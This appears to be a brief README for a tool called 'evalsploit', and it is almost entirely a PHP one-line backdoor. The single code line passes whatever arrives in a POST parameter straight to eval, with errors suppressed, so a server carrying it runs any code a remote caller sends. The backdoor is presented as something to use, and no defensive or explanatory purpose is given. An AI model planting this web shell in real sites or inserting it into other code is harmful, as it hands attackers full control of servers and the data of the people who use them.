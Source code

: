 # evalsploit
Based on eval function PHP one-line backdoor

`if(isset($_POST['Z'])){@eval($_POST['Z']);die();}`
